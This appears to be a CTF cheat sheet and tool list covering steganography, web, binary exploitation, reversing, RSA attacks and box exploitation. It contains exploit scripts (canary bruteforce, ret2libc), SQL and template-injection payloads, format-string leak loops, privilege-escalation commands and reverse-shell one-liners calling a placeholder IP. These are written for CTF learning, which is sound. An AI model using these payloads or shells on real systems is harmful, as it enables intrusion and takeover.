- [Stegbreak](https://linux.die.net/man/1/stegbreak) - Launches brute-force dictionary attacks on JPG image.
- [StegCracker](https://github.com/Paradoxis/StegCracker) - Steganography brute-force utility to uncover hidden data inside files.
- [stegextract](https://github.com/evyatarmeged/stegextract) - Detect hidden files and text in images.
- [Steghide](http://steghide.sourceforge.net/) - Hide data in various kind of images.
- [StegOnline](https://georgeom.net/StegOnline/upload) - Conduct a wide range of image steganography operations, such as concealing/revealing files hidden within bits (open-source).
- [Stegosaurus](https://github.com/AngelKitty/stegosaurus) - A steganography tool for embedding payloads within Python bytecode.
- [StegoVeritas](https://github.com/bannsec/stegoVeritas) - Yet another stego tool.
- [Stegseek](https://github.com/RickdeJager/stegseek) - Lightning fast steghide cracker that can be used to extract hidden data from files. 
- [Stegsnow](https://manpages.ubuntu.com/manpages/trusty/man1/stegsnow.1.html) - Whitespace steganography program.
- [Stegsolve](http://www.caesum.com/handbook/Stegsolve.jar) - Apply various steganography techniques to images.
- [Zsteg](https://github.com/zed-0xff/zsteg/) - PNG/BMP analysis.

## Web

*Tools used for solving Web challenges*

- [BurpSuite](https://portswigger.net/burp) - A graphical tool to testing website security.
- [Commix](https://github.com/commixproject/commix) - Automated All-in-One OS Command Injection and Exploitation Tool.
- [Hackbar](https://addons.mozilla.org/en-US/firefox/addon/hackbartool/) - Firefox addon for easy web exploitation.
- [OWASP ZAP](https://www.owasp.org/index.php/Projects/OWASP_Zed_Attack_Proxy_Project) - Intercepting proxy to replay, debug, and fuzz HTTP requests and responses
- [Postman](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop?hl=en) - Add on for chrome for debugging network requests.
- [Raccoon](https://github.com/evyatarmeged/Raccoon) - A high performance offensive security tool for reconnaissance and vulnerability scanning.
- [SQLMap](https://github.com/sqlmapproject/sqlmap) - Automatic SQL injection and database takeover tool.
  ```pip install sqlmap```
- [W3af](https://github.com/andresriancho/w3af) -  Web Application Attack and Audit Framework.
- [XSSer](http://xsser.sourceforge.net/) - Automated XSS testor.


# CTF Cheat Sheet
## Forensics / Steganography

#### General

- Really good resource from John Hammond for different types of challenges:
    - [https://github.com/JohnHammond/ctf-katana](https://github.com/JohnHammond/ctf-katana)
- Another very great cheat sheet for creating and solving challenges:
    - [https://github.com/apsdehal/awesome-ctf/blob/master/README.md](https://github.com/apsdehal/awesome-ctf/blob/master/README.md)
- file
    - `file <file.xyz>`
    - Determines the type of file
- steghide
    - `steghide extract -sf <file.xyz>`
    - Extracts embedded files
- [stegseek](https://github.com/RickdeJager/stegseek)
    - `stegseek <file> <password list>`
    - Extracts embedded files using a wordlist
    - super super quick
- binwalk
    - `binwalk -M --dd=".*" <file.xyz>`
    - Extracts embedded files
- exiftool
    - `exiftool <file.xyz>`
    - Reads metadata
- strings
    - `strings <file.xyz>`
    - Finds all printable characters in a file
- hexedit
    - `hexedit <file.xyz>`
    - You may have to change the file signature on some images for them to open
    - [List of common file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- Ghex (another hex editor but with GUI. Good if you need to jump to a certain byte)
    - `ghex <file.xyz>`
- docx files are containers so you can unzip them to find hidden content
    - `unzip <file.docx>`
- Grep | A good way to use grep to find the flag recursively:
    - `grep -r --text 'picoCTF{.*}'`
    - `egrep -r --text 'picoCTF{.*?}`
    - You can change 'picoCTF' to the beginning of the flag you are looking for
- Ltrace | Allows you to see what the code is doing as you run the program:
    - `ltrace ./<file>`
    - `ltrace -s 100 ./<file>`
        - Ltrace shortens very long strings. You can use -s to increase how many characters ltrace shows. Good for when looking at strcmp that have large strings.
        
    

#### Audio

- Fax machine audio:
    - [Example](https://devcraft.io/2018/04/08/sunshine-ctf-2018.html)
    - [Decoder](http://www.dxsoft.com/en/products/seatty/)
- SSTV (slow-scan tv) audio (moon stuff)
    - [Example](https://ctftime.org/writeup/25606)
    - [Decoder](https://ourcodeworld.com/articles/read/956/how-to-convert-decode-a-slow-scan-television-transmissions-sstv-audio-file-to-images-using-qsstv-in-ubuntu-18-04)
    - [Alt Decoder](https://www.blackcatsystems.com/software/sstv.html)
    - Use these qsstv settings:
    
    
    
- Spectrogram image
    - [Decoder](https://academo.org/demos/spectrum-analyzer/)
- Change pitch, speed, direction...
    - [Pitch, speed, tune](https://29a.ch/timestretch/)
    - [Reverse](https://audiotrimmer.com/online-mp3-reverser/)
- DTMF (dual tone multiple frequency) phone keys
    - `multimon-ng -a DTMF -t wav <file.wav>`
        - Keep in mind that these could me multitap letters.
            - [This](https://www.dcode.fr/multitap-abc-cipher) can decode the numbers into text
- Cassette tape
    - [Example](https://ctftime.org/writeup/25597)
    - [Decoder](https://github.com/lunderhage/c64tapedecode) (wav to **tap** files)
- Morse code
    - [Decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

#### Image

- [stegsolve](https://stegonline.georgeom.net/upload)
    - Switch through bits
- [foremost](https://github.com/korczis/foremost)
    - Special tool for extracting images
    - Can be used to put together broken images (in pcap for example)
- [Depix](https://github.com/beurtschipper/Depix)
    - Unpixelate text
- Check if something was photoshopped (look at highlights)
    - [https://29a.ch/photo-forensics/#error-level-analysis](https://29a.ch/photo-forensics/#error-level-analysis)
- [zsteg](https://github.com/zed-0xff/zsteg)
    - LSB decoder
- [jsteg](https://github.com/lukechampine/jsteg)
    - jpeg steganography solver
- [pixrecovery](https://online.officerecovery.com/pixrecovery/)
    - so far the most effective png recovery tool i've found (as long as you don't care about watermarks)
    - [photopea](https://www.photopea.com/) also works very well
- [crc32fix](https://github.com/Aloxaf/crc32fix)
    - fix height and width of png based on checksum
- [PCRT](https://github.com/sherlly/PCRT)
    - fix png header and footer info
    
- [png-crc-fix](https://github.com/landaire/png-crc-fix)
    - fix png checksum
- pngcheck
    - find out if there are errors in the png
    - pngcheck <file>

#### Video

#### Machine Image

- Recovering files
    - `photorec <file.bin>`
- You can mount an image as a virtual machine
    - [https://habr.com/en/post/444940/](https://habr.com/en/post/444940/)
- Mount a `.img` file:
    - `binwalk -M --dd=".*" <fileName>`
    - run `file` on output and select the Linux filesystem file
    - `losetup /dev/loop<freeLoopNumber> <fileSystemFile>`

#### Pcap

- Extract data with tcpflow
    - `tcpflow -r <file.pcap>`
- Extract data with wireshark
    - File → Export Objects → Make selection
    

## Pwn / Binary Exploitation
- **For this one, I suggest looking at my [LearnPwn](https://github.com/Adamkadaban/LearnPwn) repo instead, as this cheatsheet was made before I knew much about pwn**
    - However, I have included _some_ notes amending to what I have here.
#### General

- check security of ELF
    - `checksec <binary>`
    - `rabin2 -I <binary>`
- look at symbols
    - `readelf -s <binary>`
- look at strings
    - `rabin2 -z <binary>`
- pack address to byte
    - little endian (for 32 bits)
        - `python -c "import pwn; print(pwn.p32(<intAddr>))`
    - big endian (for 64 bits)
        - `python -c "import pwn; print(pwn.p64(<intAddr>))`
    - pwntools automatically packs addresses with the correct endianness for you

#### Buffer overflow

- If you ever need to get a /bin/sh shell and you are sure it works but the program exits anyways, use this trick:
    - `( python -c "print '<PAYLOAD>'" ; cat ) | ./<program>`
    - pwntools does this with its `process.interactive()`

#### PIE (Positional Independent Execution)

- determine random value
    - `pwn cyclic <numChars>` to generate payload
    - `dmesg | tail | grep segfault` to see where error was
    - `pwn cyclic -l 0x<errorLocation>` to see random offset to control instruction pointer
    - [example](https://www.youtube.com/watch?v=WNh3tFysYXY&ab_channel=JohnHammond)

#### NX (Non-executable)

- We can use ROP (return oriented programming) to solve


#### ROP (for statically compiled binaries)

- ROPGadget
    - view gadgets & automatically generate ropchains
    - `ROPgadget --ropchain --binary <binary>`
        - You can then add padding at the start of the code (based on the difference between your buffer and return address) and run the code to get a shell
        - [Demo](https://www.youtube.com/watch?v=MSy0rdi1vbo&ab_channel=BenGreenberg)
- ropr

#### Stack Canary

**Finding the stack canary in a debugger**
- Stack canary is a value placed before the EIP/RIP (instruction pointer) that can overwritten by a buffer overflow. The program causes an error basically if the stack is overwritten to something different than it originally was. Our goal is to find the original stack so when we overflow, the program runs normally.
- The stack canary is taken from `gs`, or `fs` (for 32 and 64 bit respectively)
    - In the disassembly, before something is read, you can see a line similar to the following:
```
   0x000000000000121a <+4>: sub    rsp,0x30
   0x000000000000121e <+8>: mov    rax,QWORD PTR fs:0x28
   0x0000000000001227 <+17>:mov    QWORD PTR [rbp-0x8],rax
   0x000000000000122b <+21>:xor    eax,eax

```
- Here, the stack canary is moved into `rax` at offset +8.
    - Thus, break at the next offset and check what's in rax (`i r rax`) to see what the current canary is

**Static Canaries**
- A canary is only static if it was manually implemented by the programmer (which is the case in some intro pwn challenges), or if you are able to fork the program.
    - When you fork the binary, the forked one has the same canary, so you can do a byte-by-byte bruteforce on that

**Extra**
- When a stack canary is improperly overwritten, it will cause a call to `__stack_chk_fail`
    - If we can't leak the canary, we can also modify the GOT table to prevent it from being called
- The canary is stored in the `TLS` structure of the current stack and is initialized by `security_init`
    - If you can overwrite the real canary value, you can set it equal whatever you decide to overflow.

- Simple script to bruteforce a static 4 byte canary:

```python
#!/bin/python3
from pwn import *

#This program is the buffer_overflow_3 in picoCTF 2018
elf = ELF('./vuln')

# Note that it's probably better to use the chr() function too to get special characters and other symbols and letters.
# But this canary was pretty simple :)
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"

canary = ''
# Here we are bruteforcing a canary 4 bytes long
for i in range(1,5):
	for letter in range(0,len(alphabet)):  # We will go through each letter/number in the string 'alphabet'
		p = elf.process()  # We start the process
		wait = p.recv().decode('utf-8')
		p.sendline(str(32+i))  # In this program, we had to specify how many bytes we were gonna send.
		wait = p.recv().decode('utf-8')
		p.sendline('A'*32 + canary + alphabet[letter])  # We send the 32 A's to overflow, and then the canary we already have + our guess
		prompt = p.recv().decode('utf-8')
		if "Stack" not in prompt:  # The program prints "Stack smashed [...]" if we get wrongfully write the canary.
			canary += alphabet[letter]  # If it doesn't print that, we got part of our canary :)
			break  # Move on to the next canary letter/number

print("The canary is: " + canary)
```

#### Format String Vulnerabilities

- Look at Table 2 for what to try if you see "printf(buf)" or something like that:
    - [https://owasp.org/www-community/attacks/Format_string_attack](https://owasp.org/www-community/attacks/Format_string_attack)
- Highly recommend looking at John Hammond doing 'echooo' challenge from picoCTF 2018
- Sometimes, trying to print only strings from the stack like this: '%s %s %s %s %s %s' may cause errors since not everything in the stack is a string.
- Try to minimize that by doing '%x %x %x %x %x %s' instead
- Instead of having to constantly increase how many %x and %s you type, you can pass a parameter to make it easier:
    - `%1$s` | This will print the first value in the stack (from what I understand, the one right next to your buffer) as a string.
    - `%2$s` | This will print the 2nd value as a string, and you get the idea
    - You can use one-liner loops to try to find the flag by leaking the stack. Press ^C (CTRL + C) to go to the next value.
        - `for i in {1..100}; do echo "%$i\$s" | nc [b7dca240cf1fbf61.247ctf.com](http://b7dca240cf1fbf61.247ctf.com/) 50478; done`
- You can control how much you leak using different size parameters:
	- `%hhx` leaks 1 byte (half of half of int size)
	- `%hx` leaks 2 bytes (half of int size)
	- `%x` leaks 4 bytes (int size)
	- `%lx` leaks 8 bytes (long size)
- very good video on modifying the stack with fstring vuln and %n:
    - [https://www.youtube.com/watch?v=gzLPVkZbaPA&ab_channel=MartinCarlisle](https://www.youtube.com/watch?v=gzLPVkZbaPA&ab_channel=MartinCarlisle)
    


#### Shellcode

- Good website to find different shellcode:
    - [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

#### Return-to-Libc

- We will overwrite the EIP to call the system() library function and we will also pass what it should execute, in this example a buffer with "/bin/sh"
- Good explanation:
    - [https://www.youtube.com/watch?v=FvQYGAM1X9U&ab_channel=NPTEL-NOCIITM](https://www.youtube.com/watch?v=FvQYGAM1X9U&ab_channel=NPTEL-NOCIITM)
- Good example (go to 3:22:44):
    - [https://www.youtube.com/watch?v=uIkxsBgkpj8&t=13257s&ab_channel=freeCodeCamp.org](https://www.youtube.com/watch?v=uIkxsBgkpj8&t=13257s&ab_channel=freeCodeCamp.org)
    - [https://www.youtube.com/watch?v=NCLUm8geskU&ab_channel=BenGreenberg](https://www.youtube.com/watch?v=NCLUm8geskU&ab_channel=BenGreenberg)
- Get address for execve("/bin/sh")
    - `one_gadget <libc file>`

- If you already know the libc file and a location (ie. dont have to leak them...)
    
    ```python
    #!/bin/python3
    
    from pwn import *
    import os
    
    binaryName = 'ret2libc1'
    
    # get the address of libc file with ldd
    libc_loc = os.popen(f'ldd {binaryName}').read().split('\n')[1].strip().split()[2]
    
    # use one_gadget to see where execve is in that libc file
    one_gadget_libc_execve_out = [int(i.split()[0], 16) for i in os.popen(f'one_gadget {libc_loc}').read().split("\n") if "execve" in i]
    
    # pick one of the suitable addresses
    libc_execve_address = one_gadget_libc_execve_out[1]
    
    p = process(f'./{binaryName}')
    e = ELF(f'./{binaryName}')
    l = ELF(libc_loc)
    
    # get the address of printf from the binary output
    printf_loc = int(p.recvuntil('\n').rstrip(), 16)
    
    # get the address of printf from libc
    printf_libc = l.sym['printf']
    
    # calculate the base address of libc
    libc_base_address = printf_loc - printf_libc
    
    # generate payload
    
    # 0x17 is from gdb analysis of offset from input to return address
    offset = 0x17
    
    payload = b"A"*offset
    payload += p64(libc_base_address + libc_execve_address)
    
    # send the payload
    p.sendline(payload)
    
    # enter in interactive so we can use the shell created from our execve payload
    p.interactive()
    ```
    

## Reverse Engineering

> Cool Guide: [https://opensource.com/article/20/4/linux-binary-analysis](https://opensource.com/article/20/4/linux-binary-analysis)
> 
- [Ghidra](https://ghidra-sre.org/)
    - Very useful decompiler
- dotPeek or dnSpy
    - decompile .NET executables
- [jadx](https://github.com/skylot/jadx) and jadx-gui
    - decompile apks
- [devtoolzone](https://devtoolzone.com/decompiler/java)
    - decompile java online
- apktool
    - decompile apks
    - `apktool d *.apk`
- [gdb](https://www.gnu.org/software/gdb/)
    - Binary analysis
    - [peda](https://github.com/longld/peda) (extension for increased functionality)
    - [gef](https://github.com/hugsy/gef) (gdb extension for pwners)
- [radare2](https://github.com/radareorg/radare2)
    - Binary analysis

#### SMT Solvers
- [angr](https://github.com/angr/angr) (python)
	- [Docs](https://docs.angr.io/core-concepts/toplevel)
	- [Tutorial](resources/SMT_Solvers.md#2-angr)
- [z3](https://github.com/Z3Prover/z3)
	- [Tutorial](resources/SMT_Solvers.md#1-z3)

#### Reversing byte-by-byte checks (side-channel attack)

[https://dustri.org/b/defeating-the-recons-movfuscator-crackme.html](https://dustri.org/b/defeating-the-recons-movfuscator-crackme.html)

- Here's a version I made for a challenge that uses a time-based attack:
    - You might have to run it a couple times just to account for randomness
```python3
#!/bin/python3

from pwn import *
import string

keyLen = 8
binaryName = 'binary'

context.log_level = 'error'

s = ''
print("*"*keyLen)
for chars in range(keyLen):
    a = []
    for i in string.printable:
        p = process(f'perf stat -x, -e cpu-clock ./{binaryName}'.split())
        p.readline()
        currPass = s + i + '0'*(keyLen - chars - 1)
        # print(currPass)
        p.sendline(currPass.encode())
        p.readline()
        p.readline()
        p.readline()
        info = p.readall().split(b',')[0]
        p.close()
        try:
            a.append((float(info), i))
        except:
            pass
        # print(float(info), i)
    a.sort(key = lambda x: x[0])
    s += str(a[-1][1])
    print(s + "*"*(keyLen - len(s)))
    # print(sorted(a, key = lambda x: x[0]))

p = process(f'./{binaryName}')
p.sendline(s.encode())
p.interactive()
```

#### Searching strings with gef

- If your flag is being read into a variable or register at any point, you can break after it is moved and run `grep <string>` and gef will automatically show you the string that matches your search pattern

## Web

- [Nikto](https://tools.kali.org/information-gathering/nikto) (if allowed)
    - automatically looks for vulnerabilities
- [gobuster](https://tools.kali.org/web-applications/gobuster) (if allowed)
    - Brute forces directories and files
- [hydra](https://tools.kali.org/password-attacks/hydra) (if allowed)
    - Brute forces logins for various services
- [BurpSuite](https://portswigger.net/burp)
    - Intercepts web requests and allows you to modify them
- [Wireshark](https://www.wireshark.org/)
    - Analyze live network traffic and pcap files
- [php reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
    - Useful for websites that allow you to upload files
    - This file needs to be executed on the server to work
- [jwt](https://jwt.io/)
    - You can identify a JWT token since it begins with "ey"
    - This site will decode JSON web tokens
    - You can crack the secret for the JSON web token to modify and sign your own tokens
        - `echo <token> > jwt.txt`
        - `john jwt.txt`
- SQL injection
    - sqlmap
        - `sqlmap --forms --dump-all -u <url>`
        - Automates the process of SQL injection
    - Basic SQL injection
        - Enter `'OR 1=1--` in login form
        - On the server this will evaluate to `SELECT * FROM Users WHERE User = '' OR 1=1--'  AND Pass = ''`
        - `1=1` evaluates to true, which satisfies the `OR` statement, and the rest of the query is commented out by the `--`
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
    - Great resource for web exploitation with lots of payloads
- Template Injection
    - [tplmap](https://github.com/epinna/tplmap)
        - Automated server-side template injection
    - Jinja Injection
        - {{ config.items() }}
    - Flask Injection
        - {{config}}
    - Python eval() function
        - `__import__.('subprocess').getoutput('<command>')`
            - make sure to switch the parentheses if it doesn't work
        - `__import__.('subprocess').getoutput('ls').split('\\n')`
            - list files in system
    - [More python injection](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)
- Cross Site Scripting
	- [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
		- Google's Content Security Policy Evaluator


### Fuzzing input fields

- FFUF
    - Copy the request to the input field and replace the parameter with "FUZZ":
        - `ffuf -request input.req -request-proto http -w /usr/share/seclists/Fuzzing/special-chars.txt -mc all`
        - Use `-fs` to filter sizes

## Crypto

### CyberChef

- [CyberChef](https://gchq.github.io/CyberChef/)
    - Carries out various cryptography operations
    

[Cipher Detector](https://www.boxentriq.com/code-breaking/cipher-identifier)!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!

### Common Ciphers

- [Caesars Cipher](https://www.dcode.fr/caesar-cipher)
- [Vigenere Cipher](https://www.dcode.fr/vigenere-cipher)
    
    ```python
    #### Solver using custom table
    cipherText = ""
    plainText = ""
    flagCipherText = ""
    tableFile = ""
    
    with open(cipherText) as fin:
        cipher = fin.readline().rstrip()
    
    with open(plainText) as fin:
        plain = fin.readline().rstrip()
    
    with open(flagCipherText) as fin:
        flag = fin.readline().rstrip()
    
    with open(tableFile) as fin:
        table = [i.rstrip().split() for i in fin.readlines()]
    
    table[0].insert(0, "") # might have to modify this part.
    			# just a 2d array with the lookup table
    			# should still work if the table is slightly off, but the key will be wrong
    key = ""
    for i, c in enumerate(plain[0:100]):
      col = table[0].index(c)
      for row in range(len(table)):
        if table[row][col] == cipher[i]:
          key += table[row][0]
          break
    
    print(key)
    
    dec_flag = ""
    for i, c in enumerate(flag[:-1]):
      col = table[0].index(key[i])
      for row in range(len(table)):
        if table[row][col] == flag[i]:
          dec_flag += table[row][0]
          break
    
    print(dec_flag)
    ```
    
- [Substitution Cipher](https://www.quipqiup.com/)
- [Rot13](https://rot13.com/)
- [Keyed Caesars cipher](https://www.boxentriq.com/code-breaking/keyed-caesar-cipher)

### RSA

#### Grab RSA Info with pycryptodome

```python
from Crypto.PublicKey import RSA

keyName = "example.pem"

with open(keyName,'r') as f:
	key = RSA.import_key(f.read())

print(key)

# You can also get individual parts of the RSA key 
# (sometimes not all of these)
print(key.p)
print(key.q)
print(key.n)
print(key.e)
print(key.d)
print(key.u)

# public keys have n and e

```

#### Chinese Remainder Theorem (p,q,e,c)
- Use this when you can factor the number `n`
    - Bad implementations will have more than one prime factor
    - [Proof](https://www.di-mgt.com.au/crt_rsa.html)

- Old
    
    ```python
    def egcd(a, b):
        if a == 0:
            return (b, 0, 1)
        g, y, x = egcd(b%a,a)
        return (g, x - (b//a) * y, y)
    
    def modinv(a, m):
        g, x, y = egcd(a, m)
        if g != 1:
            raise Exception('No modular inverse')
        return x%m
    
    p = 
    q = 
    e = 
    c = 
    
    n = p*q # use factordb command or website to find factors
    
    phi = (p-1)*(q-1) # phi is simply the product of (factor_1-1) * ... * (factor_n -1)
    
    d = modinv(e, phi) # private key
    
    # print(d)
    
    m = pow(c,d,n) # decrypted plaintext message in long integer form
    
    thing = hex(m)[2:] # ascii without extra stuff at the start (0x)
    print(bytes.fromhex(thing).decode('ascii'))
    ```
    
- New
    
    ```python
    #!/bin/python3
    from Crypto.Util.number import *
    from factordb.factordb import FactorDB
    
    # ints:
    n =    
    e =  
    c =  
    
    f = FactorDB(n)
    f.connect()
    factors = f.get_factor_list()
    
    phi = 1
    for i in factors:
    	phi *= (i-1)
    
    d = inverse(e, phi)
    m = pow(c, d, n)
    
    flag = long_to_bytes(m).decode('UTF-8')
    print(flag)
    ```
    
- Website that gives factors and euler's totient (phi)
    - [https://www.alpertron.com.ar/ECM.HTM](https://www.alpertron.com.ar/ECM.HTM)

#### Coppersmith attack (c,e)
- Usually used if the exponent is very small (e <= 5)
    - [Proof](https://web.eecs.umich.edu/~cpeikert/lic13/lec04.pdf)
```python3
from Crypto.Util.number import *
def nth_root(radicand, index):
    lo = 1
    hi = radicand
    while hi - lo > 1:
        mid = (lo + hi) // 2
        if mid ** index > radicand:
            hi = mid
        else:
            lo = mid

    if lo ** index == radicand:
        return lo
    elif hi ** index == radicand:
        return hi
    else:
        return -1

c = 
e = 

plaintext = long_to_bytes(nth_root(c, e))
print(plaintext.decode("UTF-8"))

```
#### Pollards attack (n,e,c)
- Based on [Pollard's factorization method](http://www.math.columbia.edu/~goldfeld/PollardAttack.pdf), which makes products of primes [easy to factor](https://people.csail.mit.edu/rivest/pubs/RS01.version-1999-11-22.pdf) if they are (B)smooth 
    - This is the case if `p-1 | B!` and `q - 1` has a factor > `B`
```python3
from Crypto.Util.number import *
from math import gcd

n = 
c = 
e = 

def pollard(n):
    a = 2
    b = 2
    while True:
        a = pow(a,b,n)
        d = gcd(a-1,n)
        if 1 < d < n: 
            return d
        b += 1

p = pollard(n)
q = n // p

phi = 1
for i in [p,q]:
    phi *= (i-1)

d = inverse(e, phi)
m = pow(c, d, n)

flag = long_to_bytes(m).decode('UTF-8')
print(flag)
```
#### Wiener Attack (n,e,c)
- For use when d is too small (or e is too big)
    - Using [this](https://github.com/orisano/owiener) python module
    - [Proof](https://sagi.io/crypto-classics-wieners-rsa-attack/)
```python3
from Crypto.Util.number import *
import owiener

n = 
e = 
c = 

d = owiener.attack(e, n)
m = pow(c, d, n)

flag = long_to_bytes(m)
print(flag)
```
### Base16, 32, 36, 58, 64, 85, 91, 92

[https://github.com/mufeedvh/basecrack](https://github.com/mufeedvh/basecrack)

## Box

### Connecting

- ssh
    - `ssh <username>@<ip>`
    - `ssh <username>@<ip> -i <private key file>`
    - Mount SSH in as a file system locally:
        - `sshfs -p <port> <user>@<ip>: <mount_directory>`
    - Known hosts
        - `ssh-copy-id -i ~/.ssh/id_rsa.pub <user@host>`
- netcat
    - `nc <ip> <port>`
    

### Enumeration

- Machine discovery
    - `netdiscover`
- Machine port scanning
    - `nmap -sC -sV <ip>`
- Linux enumeration
    - `enum4linux <ip>`
    
- SMB enumeration
    - `smbmap -H <ip>`
- Connect to SMB share
    - `smbclient //<ip>/<share>`

### Privilege escalation

- [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
    - `./linpeas.sh`
    - Automatically looks for privilege escalation vectors
- List commands we can run as root
    - `sudo -l`
- Find files with the SUID permission
    - `find / -perm -u=s -type f 2>/dev/null`
    - These files execute with the privileges of the owner instead of the user executing them

### Listen for reverse shell

- `nc -lnvp <port>`

### Reverse shell

- revshells.com
    - templates for basically everything you might need
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- `nc -e /bin/sh <ip> <port>`
- `bash -i >& /dev/tcp/<ip>/<port> 0>&1`

### Get interactive shell

#### Linux

1. Run the following python command to make it partially interactive: `python -c 'import pty;pty.spawn("/bin/bash");'`
2. Exit the netcat session with `CTRL+Z` and run `stty raw -echo` locally
3. Reenter your session with the command `fg` (and the job id afterward if needed)
4. Change your terminal emulator to xterm by running `export TERM=xterm` (this might not be necessary)
5. Change your shell to bash by running `export SHELL=bash` (this might not be necessary)
6. Done! Now your shell should be fully interactive

#### Windows / General

1. Install `rlwrap` on your system
2. Now, every time you run a nc listener, just put `rlwrap` in front
3. For example: `rlwrap nc -lvnp 1337`
	* This will give you arrow keys and command history, but won't give autocompletion (as far as I can tell) for windows and *nix systems 
## OSINT

- [pimeyes](https://pimeyes.com/en)
    - Reverse search faces on the internet
- [OSINT Framework](https://osintframework.com/)
    - Website that aggregates tons of OSINT tools.
## Misc

- Resolving DNS Errors
    - `dig <site> <recordType>`
    - [List of record types](https://en.wikipedia.org/wiki/List_of_DNS_record_types)
        - Make sure you try TXT
- Run a binary as a different architecture
    - 64 bit:
        - `linux64 ./<binary>`
    - 32 bit:
        - `linux32 ./<binary>`
        
- Extract MS Macros:
    - [https://www.onlinehashcrack.com/tools-online-extract-vba-from-office-word-excel.php](https://www.onlinehashcrack.com/tools-online-extract-vba-from-office-word-excel.php)
- View CNC GCode
    - [https://ncviewer.com/](https://ncviewer.com/)

# WriteUps
## Cryptography

| Challenge Name                | CTF                   | Difficulty  |
| ----------------------------- | --------------------- | ----------- |
| Adventurous R&M               | 2023 - Intra BUET CTF | Easy        |
| Asobu Ka Shinu                | 2023 - Intra BUET CTF | Easy        |
| Bang with Music               | 2023 - Intra BUET CTF | Easy        |
| Kaun Hain Ye Log              | 2023 - Intra BUET CTF | Easy-Medium |
| Monk                          | 2021 - ShadowCTF      | Easy        |
| Substitution                  | 2023 - Intra BUET CTF | Easy        |
| Valhalla                      | 2021 - ShadowCTF      | Easy        |
| What are Semaphores processes | 2021 - ShadowCTF      | Easy        |

## Reverse Engineering

| Challenge Name | CTF              | Difficulty |
| -------------- | ---------------- | ---------- |
| Thirsty_Crow   | 2021 - ShadowCTF | Difficult  |

# Notes
* TOC generated with [ecotrust-canada](https://github.com/jonschlinkert/markdown-toc)